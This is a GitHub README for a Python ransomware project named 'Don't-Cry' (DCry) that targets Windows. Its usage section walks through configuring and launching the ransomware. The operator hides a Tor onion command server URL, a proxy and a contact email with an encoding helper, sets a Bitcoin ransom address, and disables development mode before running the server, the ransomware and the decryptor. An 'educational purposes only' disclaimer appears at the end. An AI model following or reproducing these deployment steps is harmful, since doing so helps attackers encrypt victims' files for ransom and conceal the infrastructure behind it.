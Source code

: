 <h1 align="center">Don't-Cry Ransomware</h1>
  
<div align="center">

  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue" alt="Platform">
  <img src="https://img.shields.io/badge/Status-Temporarily--Inactive-orange" alt="Status">
</div>

![DCry](https://raw.githubusercontent.com/memecoder12345678/DCry-Ransomware-PoC/main/imgs/DCry.png)
Ransomware written in Python 💀💀💀
## Usage
* Open the [`DCry.py`](https://github.com/memecoder12345678/DCry-Ransomware-PoC/blob/main/src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  
  Example:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` similarly with your encoded email address. 
  ```python 
  YOUR_EMAIL_ADDRESS = dx42(b"YOUR_ENCODED_EMAIL_ADDRESS").decode()   
  ```
* Set `dev_mode = False` to disable development mode.
* Open the [`Decryptor.py`](https://github.com/memecoder12345678/DCry-Ransomware-PoC/blob/main/src/Decryptor.py) file.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```bash
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Run the server with the following command:
  ```bash
  python src/server.py
  ```
* Run the ransomware with the following command:
  ```bash
  python src/DCRY.py
  ```
* Run the decryptor with the following command:
  ```bash
  python src/decryptor.py
  ```
## Warning
> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.
## License
* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).
